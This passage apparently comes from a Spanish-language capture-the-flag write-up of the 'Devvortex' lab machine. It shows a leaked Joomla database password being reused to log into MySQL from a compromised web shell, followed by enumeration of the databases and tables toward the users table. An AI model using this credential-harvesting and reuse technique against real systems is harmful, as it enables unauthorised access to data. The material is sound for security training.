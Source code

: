 ```bash
	public $user = 'lewis';
	public $password = 'P4ntherg0t1n5r3c0n##';// Some code
```

Verificaremos que disponemos de `MySQL` instalado en el equipo, al comprobar esto, nos conectaremos con las credenciales obtenidas.

Al acceder al MySQL, visualizamos las bases de datos existentes, trataremos de investigar la tabla `joomla`.

```bash
www-data@devvortex:~/dev.devvortex.htb$ which mysql
/usr/bin/mysql

www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 9425
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.01 sec)

mysql> USE joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> 
```

Al visualizar las tablas que disponía esta BBDD, nos llama la atención la tabla nombrada como `sd4fg_users`.

<pre class="language-bash"><code class="lang-bash">mysql> SHOW TABLES;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
<strong>
</strong><strong>...[snip]...
</strong>
| sd4fg_user_keys               |